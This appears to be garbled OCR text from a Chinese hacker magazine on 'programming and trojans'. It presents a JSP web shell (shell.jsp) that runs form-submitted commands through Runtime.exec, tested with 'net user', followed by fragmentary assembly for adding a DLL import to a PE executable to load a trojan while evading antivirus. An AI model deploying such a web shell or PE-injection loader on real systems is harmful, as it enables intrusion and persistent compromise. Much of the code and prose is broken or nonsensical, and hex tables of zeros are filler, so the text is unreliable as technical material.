| 7 | 00:00:00.000 | Process |
| 8 | 00:00:00.000 | Process |
| 9 | 00:00:00.000 | svchost.exe |
| 10 | 00:00:00.000 | services.exe |
| 11 | 00:00:00.000 | svchost.exe |
| 12 | 00:00:00.000 | svchost.exe |
| 13 | 00:00:00.000 | svchost.exe |
| 14 | 00:00:00.000 | svchost.exe |
| 15 | 00:00:00.000 | svchost.exe |
| 16 | 00:00:00.000 | svchost.exe |
| 17 | 00:00:00.000 | svchost.exe |
| 18 | 00:00:00.000 | svchost.exe |
| 19 | 00:00:00.000 | ads.exe |
| 20 | 00:00:00.000 | ads.exe |
| 21 | 00:00:00.000 | FrameworkService.exe |
| 22 | 00:00:00.000 | FrameworkService.exe |
| 23 | 00:00:00.000 | VTask.exe |
| 24 | 00:00:00.000 | svchost.exe |
| 25 | 00:00:00.000 | svchost.exe |
| 26 | 00:00:00.000 | svchost.exe |
| 27 | 00:00:00.000 | explorer.exe |
| 28 | 00:00:00.000 | explorer.exe |
| 29 | 00:00:00.000 | explorer.exe |
| 30 | 00:00:00.000 | UpdateDll.exe |
| 31 | 00:00:00.000 | UpdateDll.exe |
| 32 | 00:00:00.000 | ctfacson.exe |
| 33 | 00:00:00.000 | ctfacson.exe |
| 34 | 00:00:00.000 | wigproc.exe |
| 35 | 00:00:00.000 | Driver.exe |



# PROGRAMMING ANALYSIS

```c
OutputDebugString(char * )
```

```c
// 创建函数调用的时候，一定要是真正的CreateFile
```

```c
record_lpFileName;
```

```c
HANDLE handle;
```

```c
ret=CreateFile(lpFileName,
```

```c
if(hFile==INVALID_HANDLE_VALUE) 
```

```c
dwDesiredAccess,dwShareMode,lpSecurityAttributes,
```

```c
dwCreationDisposition,dwAttributes,hTemplateFile);
```

```c
SetFilePointer(hFile,0,NULL,FILE_END);
```

```c
WriteFile(hFile,(LPCVOID)str,strlen(str)+1,
```

```c
return;
```

```c
&dwFile,FALSE);
```

```c
WriteFile(hFile,(LPCVOID)(x*n),sizeof(x)*n),
```

```c
+1,dwFile,FALSE);
```

```c
// 创建函数
void WriteLog(char *ch) {
```

```c
Close(hFile);
```

```c
DWORD dwDesired=0;
```

```c
char *str=malloc(ch);
```

```c
strcat(str,ch);
```

经过上面的过程，文件索引的开发就已经完成了，但是很多事情要做。我工作了很长时间，我的感受是开发并不难，但是要维护好要写出别人能看懂的代码，他们并不懂序，所以很多事情没有约定的去要求，但是作为开发者程序员就很够了，发脑的话不多说了，只是写给意中程序员行的兄弟们就懂说话了。

```c
HANDLE handle=CreateFileA("create.log",

GENERIC_READ|GENERIC_WRITE,FILE_SHARE_WRITE,

NULL,OPEN_ALWAYS,

FILE_ATTRIBUTE_NORMAL,FILE_FLAG_WRITE_THROUGH/

*FILE_FLAG_OVERLAPPED,0);
```

适合读者、编写者、高手前置知识：Java

# JSP-Java

# 编程与木马



Java程序在世界上运行的时候在国内基本上不多，现在看来需求要求非常高，高行的网站，基本上都用在了J2EE+Jasper+DB2/Html来编写，Java具有优点：编写一次，到处运行；Java可最大程度跨网络，可以无需修改即可在不同的操作系统运行，Java异来说，一个平台并不是所有的，Java服务器还是电子产品，只要需要就可以顺利运行。用Java写的软件是通过Java虚拟机运行的，不是直接在特定的操作系统上运行的，任何一个Java程序的计算机可以Java语言编写的软件，与这个计算设备的生产毫无无关。Java平台其实是一个虚拟机，可以运行在任何硬件平台之上。在标准化、兼容性和扩展性方面是非常常见的。总的来说，Java的确是优秀的，我们用简要来说的Java/JSP程序以及Java的。

首先来说，Java是相当安全的语言，JVM (Java虚拟机)也是安全的，因此用Java编写病毒或者木马几乎没有威胁。而且即便写出了病毒或者木马，没有Java就不可运行的，任何你运行程序的逻辑体比较大，所以世界上没有人用Java来编写木马，Java没有指。

* www.hacker.com_
* 高手

# PROGRAMMING Android

以前非常适合开发的服务器的，网页木都是现在比较好玩，因为它本身就是Java程序了。我们先来一个简单的Java程序，在测试这些程序之前，先从官网下载JDK或更高版本，这是配置环境步骤，可以从网页上的下载教程看到，这里里面已经配置好了环境变量。通过一个`Execute`类，它的功能就是运行文件，具体代码如下：

```java
// 输入我们的命令行exe作为参数，和C和C++的

#include <WinDef.h>

import java.io.IOException;

/**
 * @Title: 并执行命令cmd
 * @Description: 
 * @Copyright: (c) 2006 - 
 * @Author: xiaomigym
 * @Version: 1.0
 */
```

```java
public class ExecuteCmd {
    // 我们的命令行参数是ExecuteCmd
    public ExecuteCmd(String cmd) {
        // try {
            Process p = Runtime.getRuntime().exec(cmd);
            InputStream is = p.getInputStream();
            BufferedReader in = new BufferedReader(new InputStreamReader(is));
            String line;
            while ((line = in.readLine()) != null) {
                System.out.println(line);
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

`ExecuteCmd`类，虽然是C++的，但是用Java来运行的。我们再写一个小小的Java程序来测试，毕竟下载了之后运行它，肯定会有很多烦人的警告，大家可能在以后看到各种奇怪的提示，Java Join或者DB2、Oracle、MySQL数据库等好要的解决方法（这里也许没有问题，无所谓难题，只要足够懂就行了），我们其实是非常小的，它的功能也就是放在上运行即可。

```java
// 执行命令行cmd作为参数(String cmd)
// 页面类型="html"标题getmy_title"
// 为网页内容
// 调用java.Runtime.exec(cmd)获取输出，将其转换为String输出
```

```java
// 定义一个字符串cmd，获取传入的参数用于获取输出的对象
Process p = Runtime.getRuntime().exec(cmd);
InputStream is = p.getInputStream();
BufferedReader in = new BufferedReader(new InputStreamReader(is));
String line;
while ((line = in.readLine()) != null) {
    System.out.println(line);
}
```

我们的另一个Java程序，当从main方法调用时：

```java
public static void main(String[] args) {
    try {
        ExecuteCmd cmd = new ExecuteCmd("cmd /c test.exe");
        // 结束
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

OK，这就是我们的Java程序了，大家完全可以使用`Builder`类创建一个exe文件比较麻烦），我们把这个程序封装成`ExecuteCmd.java`并编译它，命令就是`javac ExecuteCmd.java`。编译完成后运行一次，命令是`java ExecuteCmd`

```java
// 创建一个新的Builder对象，接收传入的命令
Builder pb = new Builder(cmd);
InputStream inputStream = pb.start();
BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

// 获取输出到MyLine后合并
```

我们的第二个Java程序：

```java
strBuf.append(line+"\r\n");

catch(Exception e) {
    // 如果发生异常时就打印出来
    System.out.println(e.toString());
} else {
    // 当执行命令时
    strIn = "net user";
}
```

```jsp
// 定义一个单变量cmd, method为post

// name="cmd" action="post"

// 定义一个文本域，用来输入我们的

<input type="text" name="cmd" value="<%=strIn%>">

// 提交提交的命令

<input type="submit" name="submit" value="执行命令">

<form>

<%if(strBuf==null&&strBuf.toString().trim().equals(""))!=false) {
```

执行命令图1：

执行命令图2：net user运行命令。这里没有密码。

执行命令图3：

# 运行大的目的：连接数据库

我们从这里开始学习Java与数据库的操作程序，首先介绍一个简单的Java与数据库程序。`jdbc`，数据将通过`jdbc`的连接，字段名将是`pk`和`id`。

```java
import java.sql.Connection;

import java.sql.ResultSet;

import java.sql.DriverManager;

import java.sql.Statement;

public class jdbc {

    public void jdbc() {

    public static void main(String[] args) throws Exception {

        // 初始化连接为Null

        Connection conn = null;

        String result = null;

        try {
```


```java
// 创建连接，如果你的数据库是Informix，我们将使用驱动
Class.forName("com.informix.jdbc");
```

```html
<textarea name="MyView" ROWS="20">
<%=strIn%></textarea>
```

定义一个`TEXTAREA`的属性参数我们把这些类的文件下载到`shell.jsp`后就可以使用了。测试的时候，我们可以先下载一个支持Tomcat的Web服务器，在启动tomcat后，我们将`shell.jsp`复制到`C:\Program Files\Apache Software\Tomcat 5.0\webapps\ROOT`这里就是Tomcat的所在目录了；然后访问`http://127.0.0.1:8080/shell.jsp`。注意一下，端口是8080，然后最好配置好数据库地址。这里是我配置的数据库路径，运行后的结果如图1所示。我们点击执行命令之后的结果如图2所示，在命令输入中输入“`dir`”命令，返回结果如图3所示。总之，我们可以在其中运行命令以来的程序实现了对结果的操作。测试结果集打印出某个字段的数值。有点棘手？在对这些结果集中只得到结果是远远不够的，我们需要对这些结果集中获取更多数据，我们需要把这些结果存为`Collection`或者把数据的映射并将它们存起来，这样就方便多了。在数据库中用`Collection`和`Map`是必须的，这就是基础工作了。如果你对这些操作非常熟悉了可以继续改进`Collection`和`Map`的存储方式，或者从`Map`中获取想要的数据。

```java
// 如果数据库是Oracle
Class.forName("oracle.jdbc.OracleDriver");
// 如果数据库是SQL Server
Class.forName("com.microsoft.jdbc.sqlserver.SQLServerDriver");
// 如果数据库是MySQL
Class.forName("com.mysql.jdbc.Driver");

String url = "jdbc:mysql://localhost:3306/sample";
String user = "root"; password = "password";
// 获取连接
Connection conn = DriverManager.getConnection(url, user, password);
// 创建语句
Statement stmt = conn.createStatement();
// 执行查询
ResultSet rs = stmt.executeQuery("select * from table");
// 创建空的结果
ResultSet rs = null;
if (rs.next()) {
    // 打印第一个字段
    System.out.println("第一个字段是：" + rs.getInt(1));
}
while (rs.next()) {
    // 遍历所有字段
    System.out.println("查询的结果是：" + rs.getString(1));
}
// 关闭
stmt.close();
conn.close();
catch (Exception e) {
    // 如果发生异常就会打印出来
    System.out.println("异常了：" + e);
}
// 最后输出 Hello World！
System.out.println("Hello World!");
```

```c
IMAGE_IMPORT_DESCRIPTOR STRUCT
union {
    Characteristics dd ?
    OriginalFirstThunk dd ?
    Timestamp dd ?
    ForwarderChain dd *
    Name dd ?
    FirstThunk dd ?
} end;
```

```text
| | | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000010 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000020 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000030 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000040 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 000000000 || 000000000 | 
| 000000050 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 000000060 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 000000070 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 000000080 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 000000090 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 0000000A0 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 0000000BB | | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | |
| 0000000C0 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | | |
| 0000000D0 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | | | |
| 0000000E0 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | | |
| 0000000F0 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00、动态
```

溯技术：Hacker.com 2000年00000。

适合读者：编码者、进阶者、PE结构基础、安全专家

在2006年第4期的黑客杂志中有一篇《可执行文件作为木马》，文中提到了通过可执行文件添加一个新构造入口的方法来加载DLL，这种方法可以编写病毒的特征，它可以将字符串注册到Windows32钩中。我的理解，只是入口不是指向函数地址它就会毒。KIS是防火墙和杀毒软件于一体的产品，利用其特征来防范病毒，所以通用的方法如`createRemoteThread`、`SetContext`、`SetWindowHook`以及Dll通过导出表来执行代码的行为会被拦截，修改后的可执行链接也会报告，因为浏览器可以同步访问Windows，Windows系统服务分为服务器管理和创建进程两种，在Windows NT时通过服务器管理SCM服务，它有多个服务，运行，而微软在Windows2000以后更多服务可以共享，通过导出，`svchost`访问网络服务

# PROGRAMMING ANALYSE

| Offset | OriginFirst | TestBranch | ForwardCh | Taken | NextBlock |
|---|---|---|---|---|---|
| 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000004 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000008 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x000000c | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000010 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000014 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000018 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x000001c | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000020 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000024 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x0000028 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |
| 0x000002c | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 | 0x0000000 |

```asm
CONST segment
ifdni <,>
sym db 0
else
sym db y,0
endif
CONST ends
extaxim <offset sym>
ENDM:
code
disablewfp.asm
start:

call _S0ff; 关闭文件保护

call CreateFile

call SetFile

call MoveImport; 写入exe文件列表

exit:

invoke CreateFileProcess.NULL
```

图2
仅供大家参考。下面展示了如何实现这一过程

- 1) 定位到目标插入列表，将其读出
- 2) 增加一个新节：
- 3) 将修改后的插入列表写入新文件
- 4) 将目标插入列表插入到位置

这个操作需要一些逻辑，增加一个新节
会修改文件的大小，如果文件大小不够可以
只要留出足够的空间，然后写入插入列表
下方的 Windows 下的作为示例
无法插入，修改文件大小的方法的方法
各位可以尝试这样做。

```text
>>>执行函数行为

>>>

RSetFileproc

localnp[255]:BYTE

local tmpath[255]:BYTE

invoke RtlZeroMemory;addr,destptr,255

invoke RtlZeroMemory;addr,destptr,255

invoke GetSystemInfo;addr,destptr,255

invoke GetExeDirectory;addr,destptr,CTEXT(".exe")

invoke lstrcat;addr,destptr,CTEXT(".exe")

invoke lstrcat;addr,tmpath,destptr

invoke MoveFile;addr,destptr,tmpath

invoke CopyFile;addr,destptr,tmpath,FALSE

ret

SetFiletype

>>>

RVA转换成文件中的偏移

>>>

DWORD,DWORD:DWORD

pFileMap

mov eax,peFileMap

add eax,IMAGE_DOS_HEADER

mov edi,eax

mov eax,es.FileName

add eax,IMAGE_HEADERS

mov edi,eax

mov edx,sizeOfIMAGE_HEADERS

mov eax,fileHeader.NumberOfSections

mov ecx,ecx

asm decl:ptr IMAGE_SECTION_HEADER, sizeof

while ecx!=0; check all sections

if .x==section.VirtualAddress

add eax,section.SizeOfRawData; address is in this section

mov eax,section.VirtualAddress

sub edi,

386
model=flat
option casename=c
>>>
include windows.inc
include kernel32.inc
include kernel32.lib
include advapi32.inc
include advapi32.lib
>>>
; 数据节
>>>
data
mov dw,cd = 0
dilzero
mov db,sec.dt = sec
pubars
IMAGE_NT_HEADERS <
PeHeader
IMAGE_SECTION_HEADER <
MySection
MyDll
MyName_IMAGE_OBJECT =
>>>
 变量
CTEXTRO macro=YARG
LOCAL sym

www.hacker.com
2008黑客之2008年版

# PROGRAMMING ANALYSIS

mov eax,PointerToRawData

add eax,eax ; eax = file offset

ret

.endif

.edit

add eax,sizeofIMAGE_SECTION_HEADER

dec eax

assume code:nothing

assume esi:nothing

mov eax,edi

ret

RVATOffset end

Modimp proc

local spot [255]:BYTE

local hFile:HANDLE

invoke SetFilePointer, hfile, edi, FILE_BEGIN

;不修改寄存器

movimport,0

leal edi,import

calc eax

dwFileWritten,NULL

invoke SetFilePointer,hFile,0,dwPE_Header_Offset,0

FILE_BEGIN

invoke ReadFile,hFile,addr,dwPE_Header_Len,hLen,NULL

dwFileWrite:NULL

n****************

* PE有效性检查

****

if [PEFileHeader.Signature != IMAGE_NT_SIGNATURE

jmp Exit

.endif

* 检查是否有足够的节数量

****

mov eax,edi,[PEFileHeader.NumberOfSections]

mov eax,28

d28 = sizeofIMAGE_SECTION_HEADER

local dwFileHeader_Offset:DWORD

local dwFileWrite:DWORD

local dwMySectionOffset:DWORD

local LastSection_SizeOfData:DWORD

local LastSection_PointerToRawData:DWORD

local hMapping:DWORD

local pMapping:DWORD

local offset(520):BYTE

local alportient

local hCharacteristics

local clrData:DWORD

local hfundament:DWORD

local lrData:DWORD
```


```
eax = NumberOfSections * sizeofIMAGE_SECTION_HEADER

add eax,dwPE_Header_Offset

add eax,eax + PE文件头部

d18 = sizeofIMAGE_FILE_HEADER

mov eax,edi,[PEFileHeader.SizeOfOptionalHeader]

mov eax,SizeOfOptionalHeader

add eax,eax + 节区大小

d28
```

```
invoke RuzeroMemory,addr,spch,TEXTT(255)

invoke instcat,addr,spch,TEXTT

; 打开文件

invoke CreateFile,eax,GENERIC_READ or

GENERIC_WRITE,FILE_SHARE_READ or

FILE_SHARE_WRITE,NULL,OPEN_EXISTING,

FILE_ATTRIBUTE_NORMAL,HANDLE_VALUE

if eax == INVALID_HANDLE_VALUE

jmp Err_CreateFileExit

mov hFile,eax

; 创建映射文件

invoke CreateFileMapping,hFile,NULL,0,0

mov hMapping,eax

.endif

invoke ViewOfFileMapping,hMapping,FILE_MAP_READ,\0

if eax! !=NULL

mov pMapping,eax

.endif
```

---

```
; 遍历节区的偏移地址

mov eax,edi,[PEFileHeader.NumberOfSections]

mov eax,28

mule eax

eax = NumberOfSections * sizeofIMAGE_SECTION_HEADER

add eax,4h,4h = sizeof"PE"\0

add eax,dwPE_Header_Offset

add eax,sizeofIMAGE_FILE_HEADER

add eax,sizeofIMAGE_OPTIONAL_HEADER

add eax,dwMySectionOffset,eax

; 现在是我的节区的起始地址

push [PEFileHeader.VirtualAddress]

pop [My_Section:VirtualAddress]
```

---

```
; 读取PE文件内容

invoke SetFilePointer,hFile,0,0,FILE_BEGIN

invoke ReadFile,hFile,addr,dwPE_Header_Offset,NULL

add eax,dwFileWrite:NULL
```

---

```
; 写入节区数据，在文件中的对应的节区

; 遍历头部数据，数据到偏移0的索引处

mov eax,[PEFileHeader.DataDirectory]

IMAGE_DATA_DIRECTORY:VirtualAddress

mov eax,KYATSOffset,Mapping

mov eax,edi
```

# PROGRAMMING Analysis | socket@hacker.com

一个空 `IMAGE_THUNK_DATA` 的 `RVA` 作为接地址

```
invoke SetFilePointer, hfile, edi, FILE_BEGIN

;不修改寄存器

movimport,0

leal edi,import

calc eax

dwFileWritten,NULL
```

```
invoke ReadFile,hFile,edi, 4,addr

dwFileWritten,NULL

mov eax,edi

test eax,ecx

js calcover

add edi,4

add import,4

jmp calcover
```

```
; 写入dll名，定位到最近类的raw offset

mov edi,MySectionOffset

sub eax,18
```

```
; 写入数据

mov exc,import

invoke WriteFile,hFile,edi, eax, dwFileWritten
```

```
invoke SetFilePointer,hFile, edi

invoke ReadFile,hFile,edi, 4, addr

dwFileWritten,NULL
```

```
; 写入dll名

mov eax,MySection.VirtualAddress

add eax,dllnamelen

add exc,funparalen

mov edi,[OriginalFirstThunk]

mov edi,[TimeStamp]

mov edi,[ForwardChain]

mov eax,[My.Section.VirtualAddress]

mov edi,[My.DllName]

mov edi,[DllFirstThunk]
```

```
invoke ReadFile,hFile, edi, 4, addr

dwFileWritten,NULL
```

```
; 写入IMAGE_IMPORT_DESCRIPTOR

invoke WriteFile,hFile, edi, 20, dwFileWritten
```

```
invoke ReadFile,hFile, edi, 4, addr

dwFileWritten,NULL

mov eax,dwLastSection.OfRawData

invoke SetFilePointer,hFile, edi, FILE_BEGIN

push 0

lea eax,edi,dwLastSection.PointerToRawData

push eax

mov eax,sizeofimport

mov dllnamelen

mov edi,[My.Section.SizeRawData]

lea eax,dllnamelen

push 0

push hfile

call WriteFile
```

```
; 写入IMAGE_IMPORT_DESCRIPTOR

push 20

push filler:

invoke WriteFile,hFile, edi, 1, addr

dwFileWritten,NULL

push 0

pec

dx,edi

test eax,ecx

jr jfnzero
```

```
; 写入IMAGE_THUNK_DATA

push 0

lea eax,edi,dwLastSection

push 0

mov eax,sizeofport

mov dllnamelen

add eax,import

add eax,dllnamelen

push 0

lea eax,import

push 0

push hfile

call WriteFile
```

```
; 写入IMAGE_THUNK_DATA的RVA.

push 0

mov eax,[My.Section.VirtualAddress]

add edi,dllnamelen

mov eax,import

invoke WriteFile,hFile, edi, 4, addr

dwFileWritten,NULL
```

---

```
;我们开始自己的导出信息

mov edi,[My.Section.Name],4

mov edi,[My.Section.VirtualSize],100

push PE,[PE.Header.OptionalHeader.Size]

pop eax,[My.Section.VirtualAddress]

mov eax,[My.Section.VirtualSize]

mov dllnamelen

add eax,funparalen

add eax,edi

mov edi,[LPE.Header.OptionalHeader.DataDirectory]

mov eax,[My.Section.SizeRawData]

SizeOfRawData EXE文件内容是对齐
```

```
Alignment后的导出信息

;找到定位到最近类的SizeOfData

invoke SetFilePointer, hfile, edi, FILE_BEGIN

invoke ReadFile,hFile, edi, dwLastSection.SizeOfRawData, 4, dwFileWritten,NULL

invoke ReadFile,hFile, edi, dwLastSection.PointerToRawData, 4, dwFileWritten,NULL

;每个PointerToRawData 属于上一页的
```

## PROGRAMMING Analysis

`SizeOfRawData + PointerToRawData`

```
add dex, dwLastSection_SizeOfData

add eax, dwLastSection_PointerToRawData

mov [My_Section.PointerToRelational], eax

mov [My_Section.PointerToRelational],0

mov [My_Section.PointerToNumberOf],0

mov [My_Section.NumberOfUnrelational],0

mov [My_Section.Characteristics], 0C00020h
```

* 可编写

---

* 写入`IMAGE_HEADER`，此处结束循环

信息

```
invoke SetFilePointer, hFile, dwMySectionOffset,

